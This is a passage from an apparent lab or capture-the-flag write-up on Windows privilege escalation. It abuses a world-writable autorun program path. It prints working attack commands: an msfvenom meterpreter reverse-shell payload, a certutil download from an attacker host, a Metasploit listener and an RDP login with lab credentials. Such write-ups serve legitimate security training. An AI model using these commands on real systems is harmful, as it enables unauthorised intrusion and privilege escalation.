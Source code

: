 - we can notice the program.exe running under `C:\Program Files\Autorun Program\` ,now we should use `accesschk64.exe` to check our privilege on that path

![image](/assets/images/windowsprivescarena/20220422205719.png)

- it has read/write access For everyone , so we can replace the `program.exe` with a malicious payload to gain a reverse shell as higher privilege

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.0.37 LPORT=9090 -f exe -o  program.exe
```

- fire up your http server then from the windows machine download it :

```cmd
certutil -urlcache -f http://10.9.0.37:8888/program.exe program.exe
```

- rename it to `program.exe` as the auto runner program , copy & overwrite it :

![image](/assets/images/windowsprivescarena/20220422210828.png)

- now set you listener :

```bash
msfconsole -x "use exploit/multi/handler;set LHOST 10.9.0.37;set LPORT 9090;set payload windows/meterpreter/reverse_tcp;run"
```

- login with admin account :

```powershell
rdesktop 10.10.174.128  -u TCM -p Hacker12
```
